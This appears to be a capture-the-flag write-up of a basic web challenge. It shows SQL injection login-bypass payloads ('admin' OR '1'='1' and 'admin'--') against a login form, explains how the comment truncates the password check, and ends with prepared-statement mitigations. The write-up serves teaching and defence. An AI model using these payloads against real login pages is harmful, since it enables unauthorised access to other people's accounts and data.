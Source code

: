 +++
title = "CTF Challenge: Web Exploitation Basics"
date = 2025-01-15
description = "A walkthrough of a basic web exploitation challenge"
[taxonomies]
tags = ["ctf", "web-security", "sql-injection"]
+++

# CTF Challenge: Web Exploitation Basics

## Challenge Description

The challenge presented a simple login form with the following message:

> "Can you find a way to log in as admin without knowing the password?"

URL: `http://challenge.example.com:8080/login`

## Initial Reconnaissance

When visiting the login page, I found a basic HTML form:

```html
<form method="POST" action="/login">
    <input type="text" name="username" placeholder="Username">
    <input type="password" name="password" placeholder="Password">
    <input type="submit" value="Login">
</form>
```

## Testing for SQL Injection

Given the nature of the challenge, I suspected SQL injection. I started with basic payloads:

### Test 1: Basic OR condition
```sql
Username: admin' OR '1'='1
Password: anything
```

This didn't work, suggesting some filtering might be in place.

### Test 2: Comment-based injection
```sql
Username: admin'--
Password: (empty)
```

Success! The application returned: "Welcome, admin!"

## Analysis

The vulnerable query was likely something like:
```sql
SELECT * FROM users WHERE username='$username' AND password='$password'
```

By injecting `admin'--`, the query became:
```sql
SELECT * FROM users WHERE username='admin'-- AND password=''
```

The `--` comments out the password check, allowing us to log in as admin.

## Flag

After successful login, the flag was displayed: `flag{sql_1nj3ct10n_b4s1cs}`

## Mitigation

To prevent this vulnerability:

1. **Use prepared statements**: This is the most effective defense
```python
cursor.execute("SELECT * FROM users WHERE username=? AND password=?", (username, password))
```

2. **Input validation**: Sanitize user inputs
3. **Least privilege**: Database users should have minimal necessary permissions

## Conclusion

This was a straightforward SQL injection challenge that demonstrates the importance of properly handling user input in web applications. Always use parameterized queries to prevent such vulnerabilities!
